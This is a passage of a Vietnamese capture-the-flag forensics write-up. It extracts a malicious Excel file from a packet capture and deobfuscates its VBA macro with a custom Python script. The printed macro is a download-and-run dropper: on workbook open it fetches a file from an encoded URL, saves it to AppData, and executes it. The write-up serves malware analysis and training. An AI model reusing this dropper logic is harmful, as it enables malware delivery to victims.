 ![Screenshot (4452)](https://github.com/NVex0/uWU/assets/113530029/fb8ee111-d71e-48de-9d56-2cae5b023c32)

#### Solve:

Vẫn là Hoà và tài liệu độc hại của anh ấy. Đề cho ta 1 file pcap, dựa theo mô tả của đề thì có vẻ đây là capture của traffic khi thầy giáo nhận file độc từ Hoà. Mình sẽ extract tài liệu đó trên HTTP object list:

![Screenshot (4453)](https://github.com/NVex0/uWU/assets/113530029/20002710-b291-49fc-bccd-5a397f6e3ba2)

 `olevba` đầu tiên thôi :v: :

![image](https://github.com/NVex0/uWU/assets/113530029/34ed6a24-738b-486d-9a8d-bbb22ccb5964)

Ta thấy đoạn malicious code này bị obfuscate khá đau mắt, tuy nhiên để ý thì có vẻ như nó chỉ bị obfu bằng xài mấy tên biến non-ascii kì cục :v 

Mình code script đểu sau để nhìn VB code dễ hơn:

```
with open("data.txt", "rb") as f:
    data = f.read()
#ascii 32-126.
variablelist = []
nonasc = []
valuelist = []
gapphay = False
cmcheck = True
final = ""

for i in data:
    if not gapphay:
        if i == 10 or i == 13:
            #Xử lí xuống dòng.
            final += "\n"
            continue

        if i in range(32, 127):
            if i == 34:
                gapphay = True

            tmpstr = ""
            for j in nonasc:
                tmpstr += str(j) + " "
            variablelist.append(tmpstr)
            final += tmpstr
            nonasc = []
            
            final += chr(i)
        else:
            nonasc.append(i)
    
    else:
        if i == 34:
            for j in valuelist:
                if j not in range(32, 127):
                    cmcheck = False
            if cmcheck:
                for j in valuelist:
                    final += chr(j)
            else:
                for j in valuelist:
                    final += str(j) + " "
            cmcheck = False
            valuelist = []
            gapphay = False
            final += chr(i)
        else:
            valuelist.append(i)

newl = []
for i in variablelist:
    if len(i) != 0:
        newl.append(i)

numb = 0
for z in newl:
    if z in final:
        final = final.replace(z, f'var{str(numb)}')
        numb += 1
print(final)
```

Đầu ra của code trên sẽ replace hết tên biến trùng nhau về thành `var + số`. Còn những value không trùng thì mình để ở nguyên dạng decimal :v 

Đầu ra của mình thế này:

```
Function var0(var1)
var2 = "32 63 33 64 35 36 37 94 38 42 40 41 95 43 124 48 49 50 51 52 53 54 55 56 57 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 46 44 45 126 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 194 191 194 161 194 178 194 179 195 128 195 129 195 130 195 131 195 132 195 133 195 146 195 147 195 148 195 149 195 150 195 153 195 155 195 156 195 160 195 161 195 162 195 163 195 164 195 165 195 152 194 182 194 167 195 154 194 165 "
var3 = "195 163 88 76 49 108 89 85 126 195 153 195 164 44 67 97 194 178 90 102 195 131 64 100 79 45 99 113 194 179 195 161 195 149 115 195 132 74 86 57 65 81 110 118 98 106 48 195 133 55 87 73 33 82 66 103 194 167 72 111 63 75 95 70 51 46 195 147 112 194 165 195 150 101 80 195 162 122 107 194 182 195 155 78 195 152 37 71 32 109 195 156 94 77 38 43 194 161 35 52 41 117 195 128 114 116 56 40 195 146 83 119 124 84 42 195 130 36 69 195 165 121 104 105 195 154 120 54 53 68 195 160 194 191 50 195 129 195 148 "
For y = 1 To Len(var1)
var4 = InStr(var2, Mid(var1, y, 1))
If var4 > 0 Then
var5 = Mid(var3, var4, 1)
var6 = var6 + 
var5Else
var6 = var6 + Mid(var1, y, 1)
End If
Next
var0 = 
var6For var7 = 1 To Len(var8)
var8 = 
var7Next
For var9 = 2 To Len(var10)
var10 = 2
Next
For var11 = 3 To Len(var12)
var12 = 
var11Next
For var13 = 4 To Len(var14)
var14 = 2
Next
End Function
Sub Workbook_Open()
Dim var15 As Object
Dim var16 As String
Dim var17 As String
Dim var18 As String
Dim var19 As Integer
var19 = Chr(50) + Chr(48) + Chr(48)
Set var15 = CreateObject("87 83 99 114 105 112 116 46 83 104 101 108 108 ")
var16 = var15.SpecialFolders("65 112 112 68 97 116 97 ")
Dim 
var20Dim 
var21Dim 
194 162 var4194 182 Dim var7 As Long
Dim var9 As String
Dim var22 As Long
Dim var12 As String
Dim var11 As Long
Dim var13 As String
Dim var23 As String
Dim var10 As Long
Dim 
var24Dim 
var25Dim var26 As Integer
Dim 
194 179 194 175 194 189 194 176 var25194 185 194 164 194 190 194 189 194 179 194 165 194 184 194 178 Dim 
194 174 194 172 194 174 194 171 194 187 194 183 194 187 194 162 194 182 194 182 194 191 194 174 194 171 194 190 194 162 194 183 194 179 194 167 194 189 194 191 194 164 194 189 194 191 194 167 194 161 194 188 194 171 194 188 194 180 194 170 194 179 194 178 194 172 194 184 194 174 194 186 194 188 194 164 194 188 194 172 194 191 194 165 194 167 194 183 194 171 194 180 194 161 194 164 194 180 194 189 194 168 194 181 194 163 194 179 194 175 194 189 194 176 194 178 194 170 194 178 194 181 194 186 194 180 194 169 194 164 194 163 194 164 194 161 194 189 194 175 194 170 194 184 194 175 194 191 194 166 194 164 194 162 194 167 194 184 194 174 194 188 194 179 194 168 194 166 194 182 194 168 194 165 194 179 194 176 194 169 var26 = 1
Range("65 49 ").Value = var0("52 66 69 105 195 160 105 117 80 51 120 54 194 191 81 69 105 194 179 ")
Dim var27 As String
var28 = "36 120 194 191 80 195 156 95 106 69 80 107 69 69 105 80 195 156 95 54 73 69 51 80 95 105 51 80 195 155 120 194 191 194 178 80 195 160 81 66 120 194 178 194 179 95 105 194 179 80 51 120 54 194 191 81 69 105 194 179 98 80 195 156 95 106 69 80 107 69 69 105 80 98 194 179 120 35 69 105 114 " & vbCrLf & "195 146 120 80 194 178 69 194 179 194 178 195 160 69 106 69 80 194 179 195 156 69 98 69 80 51 95 194 179 95 40 80 195 155 120 194 191 80 95 194 178 69 80 194 178 69 55 194 191 195 160 194 178 69 51 80 194 179 120 80 194 179 194 178 95 105 98 48 69 194 178 80 64 109 109 73 80 194 179 120 80 194 179 195 156 69 80 48 120 35 35 120 195 132 195 160 105 117 80 107 95 105 73 80 95 54 54 120 194 191 105 194 179 80 105 194 191 81 107 69 194 178 58 80 " & vbCrLf & "64 109 64 109 64 109 111 64 64 194 167 109 109 109 " & vbCrLf & "103 54 54 120 194 191 105 194 179 80 195 156 120 35 51 69 194 178 58 80 76 117 194 191 195 155 69 105 80 195 146 195 156 95 105 195 156 80 33 120 105 117 " & vbCrLf & "116 95 105 73 58 80 84 116 80 116 95 105 73 "
var27 = var0(var28)
MsgBox var27, vbInformation, var0("112 69 80 51 69 69 66 35 195 155 80 194 178 69 117 194 178 69 194 179 80 194 179 120 80 195 160 105 48 120 194 178 81 80 195 155 120 194 191 ")
Dim var29 As Date
Dim var30 As Date
var29 = Date
var30 = DateSerial(2023, 6, 6)
If var29 < var30 Then
Set 194 179 194 175 194 189 194 176 var25194 185 194 164 194 190 194 189 194 179 194 165 194 184 194 178  = CreateObject("109 105 99 114 111 115 111 102 116 46 120 109 108 104 116 116 112 ")
Set var25 = CreateObject("83 104 101 108 108 46 65 112 112 108 105 99 97 116 105 111 110 ")
var24 = var16 + var0("92 107 194 191 105 54 195 156 95 126 66 98 64 ")
194 179 194 175 194 189 194 176 var25194 185 194 164 194 190 194 189 194 179 194 165 194 184 194 178 .Open "103 101 116 ", var0("195 156 194 179 194 179 66 98 58 47 47 117 195 160 98 194 179 126 117 195 160 194 179 195 156 194 191 107 194 191 98 69 194 178 54 120 105 194 179 69 105 194 179 126 54 120 81 47 107 55 194 191 95 105 81 95 105 47 102 195 128 51 95 111 45 51 89 102 48 95 69 54 109 54 107 107 51 95 107 109 194 167 51 89 48 51 195 128 89 95 51 95 95 47 194 178 95 195 132 47 195 128 51 69 195 128 107 102 109 102 195 128 64 69 195 163 195 163 111 195 163 195 164 194 167 107 64 95 64 195 163 48 195 164 54 95 69 51 45 195 163 89 48 51 54 45 64 64 107 111 111 47 95 195 128 109 98 54 109 64 194 167 126 66 98 64 "), False
194 179 194 175 194 189 194 176 var25194 185 194 164 194 190 194 189 194 179 194 165 194 184 194 178 .send
var21 = 194 179 194 175 194 189 194 176 var25194 185 194 164 194 190 194 189 194 179 194 165 194 184 194 178 .responseBody
If 194 179 194 175 194 189 194 176 var25194 185 194 164 194 190 194 189 194 179 194 165 194 184 194 178 .Status = 200 Then
Set var20 = CreateObject("97 100 111 100 98 46 115 116 114 101 97 109 ")
var20.Open
var20.Type = 
var26var20.Write 
var21var20.SaveToFile var24, var26 + 
var26var20.Close
End If
var25.Open (var24)
Else
MsgBox var0("195 165 120 105 39 194 179 80 194 179 194 178 195 155 80 194 179 120 80 194 178 194 191 105 80 81 69 80 107 194 178 120 ")
End If
End Sub
```

Đầu tiên với hàm `var0`, ta thấy nó nhận vào 1 chuỗi, trả về kí tự index thứ `var4` trên `var3`. `var4` là kết quả từ việc match xem kí tự lần đầu của chuỗi xuất hiện trong `var2` là ở đâu. Lặp liên tục trên len của chuỗi đầu vào, hàm trả về cho ta 1 string.

Code chỉ có 1 hàm duy nhất và được gọi đến cơ số lần :v, và cũng như đề cập trên, value duy nhất trong code mình để nguyên ở decimal. Ta tiến hành làm việc với mớ đó thôi.

Vì kí tự đặc biệt mình cũng không biết xử lý sao nữa, nên đành phải dò để copy value từ code VB gốc về :(

